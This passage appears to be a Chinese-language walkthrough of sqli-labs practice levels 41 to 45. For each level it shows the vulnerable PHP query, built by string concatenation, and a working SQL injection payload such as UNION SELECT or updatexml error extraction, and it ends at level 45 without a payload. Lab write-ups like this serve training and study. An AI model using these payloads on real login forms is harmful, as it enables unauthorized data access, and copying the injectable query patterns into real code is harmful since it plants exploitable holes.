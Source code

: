 ```
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

payload

```
-1+union+select+1,2,3--+
```

## less-42

```php
$username = mysqli_real_escape_string($con1, $_POST["login_user"]);
$password = $_POST["login_password"];

$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
```

payload

```
login_user=1&login_password=1'and+updatexml(1,concat(0x7e,user()),1)--+
```

## less-43

```
$sql = "SELECT * FROM users WHERE username=('$username') and password=('$password')";
```

闭合方式`')`

payload

```
login_user=admin&login_password=1')+-+updatexml(1,concat(0x7e,user()),1)+-('
```

## less-44

少了报错注入

```php
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
```

payload

```
login_user=admin&login_password=1'+union+select+1,database(),3--+
```

## less-45

```
$sql = "SELECT * FROM users WHERE username=('$username') and password=('$password')";
```
